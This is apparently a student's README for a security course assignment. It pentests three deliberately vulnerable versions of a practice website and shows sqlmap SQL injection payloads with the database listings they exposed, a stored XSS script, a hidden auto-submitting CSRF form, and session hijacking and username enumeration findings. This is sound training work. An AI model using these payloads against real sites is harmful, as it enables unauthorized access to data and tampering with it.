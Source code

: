 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---
```

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

```
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

For instance, using sqlmap to probe globitek_blue tables, we find:

```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+
```

![Gif of 5](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek

/blob/master/5.gif?raw=true)

Vulnerability #2: Session Hijacking / Fixation
Blue site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

GIF:




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment like
    ```
    <script>alert('XSS attack');</script>
    ```
    we can demonstrate the effect when the admin views it from their browser (seen below):

![Gif of 6](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/6.gif?raw=true)

Vulnerability #2: __________________


## Red

Vulnerability #1: Cross Site Request Forgery

    The red site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

![Gif of 8](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/8.gif?raw=true) 

Vulnerability #2: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


![Gif of 7](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/7.gif?raw=true)



## Notes

Describe any challenges encountered while doing the work
